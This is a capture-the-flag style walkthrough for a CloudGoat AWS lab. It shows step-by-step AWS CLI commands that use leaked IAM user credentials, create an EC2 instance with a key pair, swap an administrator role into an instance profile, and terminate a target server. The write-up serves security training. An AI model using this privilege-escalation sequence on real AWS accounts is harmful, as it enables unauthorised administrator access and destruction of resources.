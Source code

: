 # Scenario 3 - IAM Privilege Escalation By Attachment

iam_privesc_by_attachment

## What is the scenario

The scenario begins with IAM User "Kerrigan" security credentials.

The objective is to delete the EC2 instance "cg-super-critical-security-server".

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/iam_privesc_by_attachment/README.md

## Setting up the scenario

        python3 cloudgoat.py create iam_privesc_by_attachment

## Walkthrough

### Exploitation Route

![exploitation-route](imgs/scenario3-6.png)

### Step by step instructions

In this scenario, we have a set of AWS IAM Security Credentials to being with.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the available security credentials.

![enumerate-permissions](imgs/scenario3-2.png)

We can notice that the security credentials are permitted to do some specific operations and it is worth investigating further.

Let's first verify if "cg-super-critical-security-server", target EC2 machine that we are supposed to delete is available. An AWS convention is to put the name of the EC2 instance in a tag with the tag key as "Name" so we are retrieving EC2 tags.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[Tags]' \
        --profile kerrigan

![ec2-tags](imgs/scenario3-7.png)

We have sucessfully verified that the target server is available in the AWS account. Let's go ahead and continue our enumeration.

As IAM User "Kerrigan", we are allowed to retrieve information related to EC2 "Instance Profiles". An Instance Profile is a container for a single IAM Role. An EC2 Instance cannot be assigned an IAM Role directly, but it can be assigned an Instance Profile which contains a Role. Let's enumerate the Instance Profiles available. In this below command, we are using `--query` to query only Instance Roles that start with `cg-` because Cloudgoat as a convention names all the resources starting with `cg`

        aws iam list-instance-profiles \
        --query "InstanceProfiles[?starts_with(InstanceProfileName, 'cg')]" \
        --profile kerrigan

![instance-profiles](imgs/scenario3-3.png)

The AWS account has one Instance Profile, `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` which is a container around the IAM Role `cg-ec2-meek-role-<CLOUD_GOAT_ID>`.

As IAM User "Kerrigan", we are also allowed to retrieve information related to IAM Roles. Let's enumerate the IAM roles available.

        aws iam list-roles \
        --query "Roles[?starts_with(RoleName, 'cg')]" \
        --profile kerrigan

![iam-roles](imgs/scenario3-4.png)

![instance-profiles](imgs/scenario3-5.png)

There are two IAM roles in the AWS account - `cg-ec2-meek-role-<CLOUD_GOAT_ID>` and `cg-ec2-mighty-role-<CLOUD_GOAT_ID>`. The keywords "meek" and "mighty" suggest that one role (mighty) may have more permissions than other role (meek). All the operations performed to enumerate the permissions of  these roles have failed with an "Access Denied" error.

One possible way to figure out the permissions of these roles is to attach them to an EC2 instance and using the EC2 to enumerate the role permissions. Remember that IAM Roles can't be attached to EC2 directly, they have to be wrapped in an Instance Profile. This method requires us to be able to create/modify Instance Profiles, create an EC2 instance with Instance Profile in the AWS account.

Let's try and create an EC2 instance. To create an EC2 instance that we can use to enumerate the IAM role permissions, we need the following - 

1. A subnet to start EC2 Instance in
2. A security group that allows SSH access to the EC2 instance
3. An SSH key pair that we can use to SSH into the EC2 instance

We can use the same subnet as the target EC2 machine that we are supposed to delete.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[SubnetId]' \
        --output text --profile kerrigan

![subnetId](imgs/scenario3-8.png)

We can enumerate the security groups and use the security group that allows SSH access to the EC2 instance.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[SecurityGroups]' \
        --output text --profile kerrigan

        aws ec2 describe-security-groups --profile kerrigan

![security-groups](imgs/scenario3-9.png)

Let's try and create a new SSH Key Pair because we can't use any existing key pairs in the AWS account. We need this new key pair in order to SSH into the EC2 machine that we might create.

        aws ec2 create-key-pair \
        --key-name new-ec2  \
        --query 'KeyMaterial' \
        --output text > new-ec2.pem \
        --region us-east-1 \
        --profile kerrigan

We have all the information needed to create a new EC2 instance. Now let's try and create an EC2 instance with following criteria -

1. Same subnet as target EC2 instance
2. Security group that allows SSH access
3. Newly generate SSH key pair for SSH authentication
4. Attach the `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` Instance Profile
5. Use an Ubuntu 18.04 AMI

Let's go ahead and try to create a new EC2 instance. 

        aws ec2 run-instances \
        --image-id ami-0a313d6098716f372 \
        --instance-type t2.micro \
        --iam-instance-profile \
        Arn=<INSTANCE-PROFILE-ARN> \
        --key-name new-ec2 \
        --subnet-id <SUBNET_ID> \
        --security-group-ids <SECURITY_GROUP_ID> \
        --region us-east-1 \
        --profile kerrigan

We are able to successfully create a new EC2 instance. Save the details of the new EC2 instance for later usage. 

The Instance Role `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` is still a wrapper around potentially low privileged IAM Role i.e. `cg-ec2-meek-role-<CLOUD_GOAT_ID>`. Let's remove it and add `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` IAM Role to the Instance Profile.


        aws iam remove-role-from-instance-profile \
        --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
        --role-name cg-ec2-meek-role-<CLOUD_GOAT_ID> --profile kerrigan

        aws iam add-role-to-instance-profile \
        --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
        --role-name cg-ec2-mighty-role-<CLOUD_GOAT_ID> --profile kerrigan

Let's SSH into the newly created EC2 instance - 


1. Change permissions for the SSH private key `chmod 400 new-ec2.pem`
2. Retrieve the public IP of the newly created EC2 instance

        aws ec2 describe-instances \
        --query "Reservations[*].Instances[*].PublicIpAddress" \
        --output text \
        --profile kerrigan

3. SSH into the machine using the public IP address `ssh -i new-ec2.pem ubuntu@<PUBLIC-IP-ADDRESS>`

Once you have successully SSHed into the EC2 instance, let's enumerate the IAM role `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` and policy attached to it 


1. Install AWS CLI on the EC2 instance

```
sudo apt-get update

sudo apt-get install awscli
```

2. Enumerate the policy and policy permissions


        aws iam list-policies --query "Policies[?starts_with(PolicyName, 'cg')]"


        aws iam get-policy-version \
        --policy-arn "arn:aws:iam::ACCOUNT-ID:policy/cg-ec2-mighty-policy"  \
        --version-id "v1"

![policy](imgs/scenario3-11.png)

![policy-permissions](imgs/scenario3-10.png)

Notice that the `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` IAM Role basically gave the EC2 instance Administrator access to the AWS account.

3. Terminate the target EC2 instance 


        aws ec2 describe-instances --region us-east-1
        aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1

## Destroy the scenario


> <p><span style="color:red"><em>Note: In this scenario you created some AWS resources manually (EC2 Instance, Key pair etc). CloudGoat can only manage resources it creates, you should remove the resources you created manually before running cloudgoat destroy.</em></span>.</p>

        python3 cloudgoat.py destroy iam_privesc_by_attachment

## References

- [Using Instance Profiles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_use_switch-role-ec2_instance-profiles.html)



